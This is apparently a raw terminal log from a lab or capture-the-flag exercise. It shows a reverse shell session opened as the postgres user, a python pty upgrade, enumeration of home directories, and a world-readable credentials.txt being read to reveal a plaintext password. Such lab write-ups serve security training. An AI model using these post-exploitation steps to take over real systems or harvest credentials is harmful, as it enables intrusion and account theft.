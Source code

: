 ```
[*] Command shell session 1 opened (10.18.72.222:4444 -> 10.10.205.125:48962) at 2023-08-14 00:11:21 -0400

python3 -c 'import pty; pty.spawn("/bin/bash")'
postgres@ubuntu:/var/lib/postgresql/9.5/main$ whoami
whoami
postgres
postgres@ubuntu:/var/lib/postgresql/9.5/main$ id
id
uid=109(postgres) gid=117(postgres) groups=117(postgres),116(ssl-cert)
postgres@ubuntu:/var/lib/postgresql/9.5/main$ cd /home
cd /home
postgres@ubuntu:/home$ ls -al
ls -al
total 16
drwxr-xr-x  4 root   root   4096 Jul 28  2020 .
drwxr-xr-x 22 root   root   4096 Jul 28  2020 ..
drwxr-xr-x  4 alison alison 4096 Jul 28  2020 alison
drwxr-xr-x  2 dark   dark   4096 Jul 28  2020 dark
postgres@ubuntu:/home$ cd alison
cd alison
postgres@ubuntu:/home/alison$ ls -al
ls -al
total 40
drwxr-xr-x 4 alison alison 4096 Jul 28  2020 .
drwxr-xr-x 4 root   root   4096 Jul 28  2020 ..
-rw------- 1 alison alison 2444 Jul 28  2020 .bash_history
-rw-r--r-- 1 alison alison  220 Jul 28  2020 .bash_logout
-rw-r--r-- 1 alison alison 3771 Jul 28  2020 .bashrc
drwx------ 2 alison alison 4096 Jul 28  2020 .cache
drwxr-xr-x 2 alison alison 4096 Jul 28  2020 .nano
-rw-r--r-- 1 alison alison  655 Jul 28  2020 .profile
-rw-r--r-- 1 alison alison    0 Jul 28  2020 .sudo_as_admin_successful
-rw------- 1 alison alison   35 Jul 28  2020 user.txt
-rw-r--r-- 1 root   root    183 Jul 28  2020 .wget-hsts
postgres@ubuntu:/home/alison$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
postgres@ubuntu:/home/alison$ cd ../dark
cd ../dark
postgres@ubuntu:/home/dark$ ls -al
ls -al
total 28
drwxr-xr-x 2 dark dark 4096 Jul 28  2020 .
drwxr-xr-x 4 root root 4096 Jul 28  2020 ..
-rw------- 1 dark dark   26 Jul 28  2020 .bash_history
-rw-r--r-- 1 dark dark  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 dark dark 3771 Aug 31  2015 .bashrc
-rwxrwxrwx 1 dark dark   24 Jul 28  2020 credentials.txt
-rw-r--r-- 1 dark dark  655 May 16  2017 .profile
postgres@ubuntu:/home/dark$ cat credentials.txt
cat credentials.txt
dark:qwerty1234#!hackme
```
